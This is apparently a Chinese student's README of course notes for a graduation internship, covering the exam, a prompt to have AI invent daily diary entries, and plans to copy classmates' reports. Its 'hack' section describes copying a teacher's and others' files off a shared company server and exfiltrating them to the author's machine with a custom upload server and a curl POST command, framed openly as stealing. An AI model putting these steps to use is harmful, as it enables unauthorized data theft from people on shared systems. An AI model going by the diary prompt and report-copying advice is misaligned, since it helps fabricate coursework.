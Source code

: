 # 毕业实习

大四的最后一门课，故意放在考研后，避免挤占考研复习时间。这个时间点，大家未来的研究方向/就业方向已经决定了吧，不是每个人都去做芯片的，我认为，如果跟自己的方向不重合，就不用听。

（笑死，上课去的人还不到一半，没有签到，随便翘。大家都有自己的事，谁来听这个毕业实习。）

不像其他专业的毕业实习，信息工程专业没有任何企业参观，全部在教室学东西，只是请了个企业讲师来讲课。[上课安排](./上课安排.xlsx)

## 考试

考试决定平时成绩，占总成绩 30%

最后一天有一个考试，一小时。开卷，允许上网查资料，除了不能用手机拍照其他的都可以干，所以完全没有必要专门去学习。请谨慎使用 AI，因为可能会给出错误的答案。

交卷时我把考题悄悄拍下来了，给后人留下[一些参考](./考试)。都非常简单的题目。

## 资料

- [飞书链接](https://k0wclrk5a3j.feishu.cn/drive/folder/CCxzfWBR8lKaARdFi0jcqXIunlj)

## 日记与报告

剩下的是日记与报告，占总成绩的 70%。

### 日记

让我们用 AI：

```
我目前正在参加一项实践课程，需要每天写一篇实习日记，包含自己学到的东西与新得体会。稍后我会将学习主题和资料发送给你，每次代表这一天学习的主题，请你帮我每天写一篇日记。至于学到了什么具体的内容，你可以自己补充。日记风格是个人感悟式的抒发，长度约为 300-400 字，希望包含一些遇到的困难与解决方法。
```

### 报告

报告允许全部使用电子版编写，打印后贴到报告本里。

内容就等等其他人，~~或者因为大家都因为寒假急着回家，此时自告奋勇留在学校收报告，就可以大抄特抄了~~。至于图片，找熟人要一下，或者网上找找都行。

## 传文件到服务器

现在是 AI 时代，想必大家都不愿意在服务器里手打，而是 AI 辅助完成后再传到服务器上调试。

<details><summary>展开</summary>

我们使用 VNC 面板连接到企业提供的服务器。VNC 端口 <124.152.95.232:5999>，这玩意甚至 ping 不通。服务器本身不支持通过 VNC 文件传输：_VNC Server does not support file transfer_。

服务器上每个人都是一个用户，并没有做虚拟机级别的隔离。虽然我不能访问其他同学的 HOME 目录，但是老师的 home 可以访问。（不知道为啥留个洞）

查看 `/etc/ssh/ssh_config`，看到 Port 为 2222，尝试连接无效，基本能推断出给的 IP 只是一个反代。

在服务器上 `ping baidu.com` 无效，没做 dhcp。但是尝试 ping 一个 IP，正常，说明有网络连接。那就好办了，因为我们每个宿舍都有公网 IP。

在本机开一个 http server（`python -m http.server 55555`），去路由器设置里把本机这个端口暴露到公网。然后在服务器上 `wget http://xxx.xxx.xx.xxx:55555/myfile.txt`，就可以从本机传文件到服务器上了。

然后过了一阵子，课程结束，这时候我发现没法传文件上去了，对外网络已经全部关掉了。也不知道是发现了这个 bug 还是咋地。于是没辙，只好尝试一下给 VNC 窗口发送假的键盘消息。

在 python 中可以使用 `pyautogui` 模块来模拟键盘输入。具体代码在 [send_text.py](./send_text.py) 中。将要发送的内容写到 `text_to_send` 文件中，VNC 里打开 vim 准备输入，然后运行脚本，切换到 VNC 窗口。

这样可能会有格式问题，因为 VNC 上的 vim 被配置了自动缩进。我们需要在 `~/.vimrc` 的末尾添加：

```
set noautoindent
set nosmartindent
set nocindent
```

这样再运行即可。

</details>

## hack

<details><summary>展开</summary>

我传了一个 [fd](https://github.com/sharkdp/fd) 用来在教师盘里找文件。我更习惯 fd，感觉比 find 好用。然后用类似 `fd -H -e jpg -e doc -e docx -e ppt -e pptx -x cp {} ~/my` 把貌似有用的资料全部偷下来。

那么如何传到自己的电脑呢？首先先打个 tar.gz，然后有两个方法。

1. 由于自己电脑有公网 IP，所以直接用基于 ssh 的 scp/rsync 即可。需要在 _windows 设置 - 系统 - 可选功能_ 里安装 OpenSSH 服务器，然后把 22 端口开放到公网。
2. 改一改 http server 的代码，让它可以接受数据输入。用 GPT 快速糊一个：

   ```python
   import os
   from http.server import HTTPServer, SimpleHTTPRequestHandler


   class UploadHandler(SimpleHTTPRequestHandler):
       def do_POST(self):
           # 获取上传文件的长度
           content_length = int(self.headers["Content-Length"])

           # 读取上传的文件内容
           file_content = self.rfile.read(content_length)

           # 获取上传的文件名
           filename = os.path.basename(self.path)

           # 将文件写入到当前目录
           with open(filename, "wb") as f:
               f.write(file_content)

           # 返回成功响应
           self.send_response(200)
           self.end_headers()
           self.wfile.write(b"File uploaded successfully")


   if __name__ == "__main__":
       # 设置服务器地址和端口
       server_address = ("", 55555)
       httpd = HTTPServer(server_address, UploadHandler)

       print("Starting server on port 55555...")
       httpd.serve_forever()
   ```

   运行，然后就可以通过 POST 命令上传文件了。这里使用 curl：`curl --noproxy '*' -x P0ST --data-binary @my.tar.gz http://xxx.xxx.xx.xx:55555/a.tar.gz`。noproxy 是必要的，服务器上有奇怪的代理设置。

仿照这个例子，再把有访问权限的其他人的东西给偷过来。

结果最后发现好像没有偷到什么有价值的东西。

</details>
